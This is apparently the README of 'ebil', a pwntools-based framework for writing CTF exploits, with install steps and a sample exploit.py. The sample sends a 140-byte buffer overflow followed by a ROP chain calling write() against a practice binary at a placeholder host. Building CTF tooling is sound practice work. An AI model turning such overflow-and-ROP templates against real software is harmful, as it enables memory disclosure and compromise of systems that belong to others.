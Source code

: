 # ebil - Exploit code framework for CTFs
ebil is an exploit code framework for CTFs, based on pwntools

Command line tools + python library
### Runtime Environment
#### config file (TODO)
`$HOME/.ebil.conf`


### Command line tools
`ebil new <process>` -> `./exploit.py` with `process` will be generated


### Python library
`pip install ./py`

__usage__:
```sh
./exploit.py   # run locally
./exploit.py p # run locally (pause on breakpoints)
./exploit.py r # remote

```
__exploit.py__:
```python
#!/usr/bin/env python
from pwn  import *
from ebil import *

exec ebil('./vuln', remote=('pwnable.example.com', 35555), args=['wei'])
x86_64()

if LOCAL: log.info('** LOCAL **')

payload = 'a'*140

dummy = 0xbeefbeefbeefbeef
payload += chain([
  elf.symbols['write'], dummy, 1, 0x8049348, 4,
])
send(payload, 200)

print repr(r.recvrepeat())

r.wait_for_close()
```

## Installation
```bash
git clone https://github.com/193s/ebil && cd ebil
install -v ebil /usr/local/bin
pip install ./py
```

## License
Copyright (c) 2015 193s

Published under the GNU GPLv2, see ./LICENSE


